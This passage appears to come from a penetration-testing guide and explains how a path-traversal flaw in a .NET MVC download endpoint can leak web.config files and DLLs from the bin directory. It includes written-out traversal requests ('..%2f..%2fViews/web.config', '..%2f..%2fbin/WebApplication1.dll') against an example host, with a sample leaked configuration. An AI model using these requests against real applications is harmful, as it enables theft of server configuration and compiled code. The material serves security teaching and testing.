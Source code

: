 In addition, .Net MVC applications are structured to define **other web.config files**, having the aim to include any declaration for specific namespaces for each set of viewpages, relieving developers to declare “@using” namespaces in every file.

```markup
GET /download_page?id=..%2f..%2fViews/web.config HTTP/1.1
Host: example-mvc-application.minded
[...]

HTTP/1.1 200 OK
[...]
<?xml version="1.0"?>
<configuration>
  <configSections>
    <sectionGroup name="system.web.webPages.razor" type="System.Web.WebPages.Razor.Configuration.RazorWebSectionGroup, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral">
    <section name="host" type="System.Web.WebPages.Razor.Configuration.HostSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />
    <section name="pages" type="System.Web.WebPages.Razor.Configuration.RazorPagesSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />
    </sectionGroup>
  </configSections>
<system.web.webPages.razor><host factoryType="System.Web.Mvc.MvcWebRazorHostFactory, System.Web.Mvc, Version=5.2.3.0, Culture=neutral" /><pages pageBaseType="System.Web.Mvc.WebViewPage">
  <namespaces>
    <add namespace="System.Web.Mvc" />
    <add namespace="System.Web.Mvc.Ajax" />
    <add namespace="System.Web.Mvc.Html" />
    <add namespace="System.Web.Optimization"/>
    <add namespace="System.Web.Routing" />
    <add namespace="WebApplication1" />
```

#### Downloading DLLs

From a very previous response, the declaration of a **custom namespace** \(since other namespaces are defaults\) suggests that a DLL called "**WebApplication1**" is present in the /bin directory.

```text
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
Host: example-mvc-application.minded
[...]
```

From the previous output, inside the /bin directory you will also be able to find the Dlls 

* System.Web.Mvc.dll
* System.Web.Mvc.Ajax.dll
* System.Web.Mvc.Html.dll
* System.Web.Optimization.dll
* System.Web.Routing.dll

Let's suppose that the previous DLL is importing a namespace called **WebApplication1.Areas.Minded.** an attacker can infer that other web.config files are present in the application, in guessable/default paths as **/area-name/Views/**, containing specific configurations that may refer to other DLL files present in the /bin folder.
